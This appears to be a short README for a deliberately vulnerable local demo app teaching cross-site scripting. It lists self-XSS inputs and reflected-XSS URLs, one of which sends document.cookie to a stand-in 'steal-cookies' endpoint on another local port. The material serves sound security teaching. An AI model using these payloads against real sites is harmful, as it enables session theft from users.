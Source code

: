## Vulnerable Services

### Self XSS

Try some inputs inputs in the first field:

- `<strong>cat`
- `<img src="doesnt exist" onerror="alert('I just executed some JavaScript, yikes!')">`

### Reflected XSS

Here's an example some URL which would be pretty naughty

- <http://localhost:8080/reflected-xss.html?first=%3Cimg%20src=%22doesnt%20exist%22%20onerror=%22alert(%27I%20just%20executed%20some%20JavaScript%20without%20any%20human%20interaction%20on%20the%20page!%27)%22%3E&autoSubmit=true>
- <http://localhost:8080/reflected-xss.html?first=%3Cimg%20src=%22doesnt%20exist%22%20onerror=%22fetch(`http://localhost:1337/steal-cookies?cookie=${encodeURIComponent(document.cookie)}`)%22%3E&autoSubmit=true>
